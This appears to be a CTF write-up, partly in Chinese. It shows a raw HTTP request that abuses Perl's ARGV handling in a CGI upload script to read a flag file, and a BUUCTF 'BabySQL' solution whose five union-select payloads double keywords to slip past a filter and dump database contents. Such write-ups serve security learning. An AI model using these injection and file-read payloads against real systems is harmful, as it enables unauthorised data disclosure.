 ```
POST /cgi-bin/file.pl?/flag HTTP/1.1
Host: 220.249.52.133:45874
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------312623419042421556082293855654
Content-Length: 492
Origin: http://220.249.52.133:45874
Connection: close
Referer: http://220.249.52.133:45874/cgi-bin/file.pl
Cookie: PHPSESSID=0g8sp3lq2esm31ss6265g37l77
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

-----------------------------312623419042421556082293855654
Content-Disposition: form-data; name="file";
Content-Type: application/octet-stream

ARGV
-----------------------------312623419042421556082293855654
Content-Disposition: form-data; name="file"; filename="test.py"
Content-Type: text/plain

-----------------------------312623419042421556082293855654
Content-Disposition: form-data; name="Submit!"

Submit!
-----------------------------312623419042421556082293855654--
```

# buuctf

## web

###### [极客大挑战 2019]BabySQL

双写绕过注入，需要换库。

密码随便填，从账号处注入。

```
-1' ununionion selselectect 1,2,3-- -

-1' ununionion selselectect 1,group_concat(schema_name),3 frfromom infoorrmation_schema.schemata-- -

-1' uniounionn seleselectct 1,group_concat(table_name),3 frfromom infoorrmation_schema.tables whwhereere table_schema='ctf'-- -

-1' uniunionon selselectect 1,group_concat(column_name),3 ffromrom infoorrmation_schema.columns whewherere table_name='Flag'-- -

-1' ununionion selselectect 1,(selselectect flag frfromom ctf.Flag limit 1),3-- -
```
